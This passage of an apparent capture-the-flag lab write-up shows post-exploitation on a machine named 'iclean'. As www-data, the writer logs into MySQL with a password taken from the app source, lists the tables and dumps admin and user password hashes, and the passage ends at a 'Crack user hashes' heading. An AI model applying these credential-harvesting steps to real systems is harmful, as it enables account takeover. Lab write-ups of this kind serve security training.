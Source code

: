Connect to DB

```bash
www-data@iclean:/opt/app$ mysql -u iclean -p'pxCsmnGLckUb' -D capiclean
mysql: [Warning] Using a password on the command line interface can be insecure.
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 146
Server version: 8.0.36-0ubuntu0.22.04.1 (Ubuntu)

Copyright (c) 2000, 2024, Oracle and/or its affiliates.

Oracle is a registered trademark of Oracle Corporation and/or its
affiliates. Other names may be trademarks of their respective
owners.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

mysql>
```

Enumerate DB

```bash
mysql> show tables;
+---------------------+
| Tables_in_capiclean |
+---------------------+
| quote_requests      |
| services            |
| users               |
+---------------------+
3 rows in set (0.00 sec)

mysql> select * from users;
+----+----------+------------------------------------------------------------------+----------------------------------+
| id | username | password                                                         | role_id                          |
+----+----------+------------------------------------------------------------------+----------------------------------+
|  1 | admin    | 2ae316f10d49222f369139ce899e414e57ed9e339bb75457446f2ba8628a6e51 | 21232f297a57a5a743894a0e4a801fc3 |
|  2 | consuela | 0a298fdd4d546844ae940357b631e40bf2a7847932f82c494daa1c9c5d6927aa | ee11cbb19052e40b07aac0ca060c23ee |
+----+----------+------------------------------------------------------------------+----------------------------------+
2 rows in set (0.00 sec)
```

### Crack user hashes
